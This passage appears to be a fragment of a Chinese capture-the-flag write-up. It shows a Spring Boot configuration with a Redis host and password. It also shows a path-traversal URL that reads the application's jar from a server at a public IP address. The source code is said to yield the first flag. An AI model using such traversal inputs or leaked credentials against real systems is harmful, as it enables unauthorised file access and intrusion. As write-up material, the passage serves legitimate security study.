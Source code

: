 spring 配置

![](static/I1iPb3qXoogtoLxovAdcEqOanLc.png)

```javascript
server.port=18080
server.servlet.context-path=/
management.endpoints.web.exposure.include=c
spring.redis.host=172.25.0.10
spring.redis.port=62341
spring.redis.password=de17cb1cfa1a8e8011f027b416775c6a
spring.servlet.multipart.max-file-size=10MB
```

[http://8.130.129.179/readfile?filename=../../app/demo.jar](http://8.130.129.179:51180/readfile?filename=../../app/demo.jar)

源码

源码里有第一个 flag

![](static/URXJboe71oBUSexQwi0cqpSenDe.png)
